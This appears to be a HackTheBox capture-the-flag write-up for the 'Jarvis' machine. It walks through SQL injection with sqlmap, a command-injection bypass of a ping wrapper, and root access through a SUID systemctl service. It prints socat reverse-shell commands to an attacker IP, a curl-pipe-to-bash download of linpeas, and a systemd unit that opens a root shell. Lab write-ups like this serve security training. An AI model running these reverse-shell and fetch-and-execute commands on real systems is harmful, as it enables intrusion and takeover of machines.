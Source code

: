 ```yaml
---
title: "Jarvis - HackTheBox"
date: 2019-11-09T18:07:25+02:00
tags: [SQL injection, systemctl, misconfiguration, SUID]
---
```


## Information gathering

Let's run a quick nmap scan:
```
$ nmap -A -T4 10.10.10.143
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-22 20:09 EDT
Nmap scan report for 10.10.10.143
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

## Exploration

The website is a hotel presentation and trying to run `gobuster` on it get us
banned and the site will respond with this message:

> Hey you have been banned for 90 seconds, don't be bad

Nevermind, let's wait a bit.

Exploring the website, we can see that the link to each room uses a `GET`
parameter to indicate the number of the room, for example:
```
http://10.10.10.143/room.php?cod=1
```
We can try to see if it's vulnerable to `SQL` injection by visiting the
following urls:
```
http://10.10.10.143/room.php?cod=1337 or 1=1
```
It will return the first room even if the `cod` parameter does not match.

## Getting a shell

We can try to get a shell using `sqlmap` by using the `--os-shell` option:
```
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell --random-agent
```
![](/images/hackthebox/jarvis/www-data-shell.png)

And it does work! We have a shell as `www-data` user.

We can get a better shell thant this one by running a `socat` listener on our
machine with this command:
```
socat file:`tty`,raw,echo=0 tcp-listen:1337
```
and connect to it with this command:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1337
```

## Further enumeration

The following step is to run an enumeration script on the machine, I choose 
[linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

So after running a web server on our machine with `python2.7 -m SimpleHTTPServer
8080` let's run the script on the remote machine with `curl
http://10.10.14.8:8080/linpeas.sh | bash`.

There seems to be an interesting command that we can run as the user `pepper`
without providing it's password:
![](/images/hackthebox/jarvis/simpler.png)

Here's the code of `simpler.py` (I removed the useless parts):
```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It's a wrapper to the `ping` command, and it basically pings any host that we
provide as input. There are some characters that we can not use as input, but
luckily we can use `$`, `(` and `)`.  
We can easily get a shell by using `$(bash)` as the ip to connect to:
![](/images/hackthebox/jarvis/user-shell.png)

And then let's get the flag:
```
pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege escalation

By running again `linpeas.sh` we stumble upon an unusual executable who has the
`SUID` bit set, `systemctl`. We can exploit this to run any command as `root`, so
let's create a `systemd` service file that will gets us a reverse shell:
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1338"
[Install]
WantedBy=multi-user.target
```
And after setting up our `socat` listener, let's install and run the service:
```
$ systemctl link /home/pepper/shell.service
$ systemctl enable --now /home/pepper/shell.service
```

And here's our shell! Let's get the flag:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1338
root@jarvis:/# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

See you in the next one! Thanks for reading!
